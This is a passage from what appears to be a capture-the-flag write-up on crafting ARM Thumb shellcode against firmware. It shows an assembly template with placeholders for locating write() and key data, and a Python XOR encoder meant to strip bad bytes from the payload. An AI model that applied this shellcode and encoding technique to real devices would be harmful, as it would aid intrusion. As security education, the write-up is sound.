 ```

add %r1, #1
add %r0, #1

push { %r0 }
mov %r0, %lr
// Yes, blx + pop stuff would make the firmware survive the shellcode
pop { %pc }


// The ${...} will be replaced by some python code
// to obtain the final shellcode
// pattern_*: char[n_*] of the fingerprint of the write() or data section

.align
n_write:	.word  ${N_WRITE}
.align
pattern_write:	${PATTERN_WRITE}
.align
n_key:	.word  ${N_KEY}
.align
pattern_key:	 ${PATTERN_KEY}
.align
offset:	.word  ${FINDIT_FUNC_OFFSET}
.align
FUNC:

// After this, we will have:
// At FUNC: solve() function
// At FUNC+${FINDIT_FUNC_OFFSET}: findit() function

```


The only remaining problem is that all this code can *0x00* or *0x0A* bytes.
Since it's thumb code, it's not really hard to fix the offending instructions. For the data, it might be more annoying (looking at you *n_write* and *n_key*).

However, I am lazy, this would require manual work and it would not be reusable. So let's prepend all this with an encoder stage.


## ARM shellcode encoder

In metasploit, we can usually find payload encoders for x86 (Shikata Ga Nai to name one).
Half a minute of googling and an empty net later, I settled for an *XORed* encoder with a passphrase.


The python code below illustrate the encryption/decryption process.
{% highlight python %}
def encode(plaintext, key):
  for i,c  in enumerate(plaintext):
    yield c ^ key[i % len(key)]
{% endhighlight %}
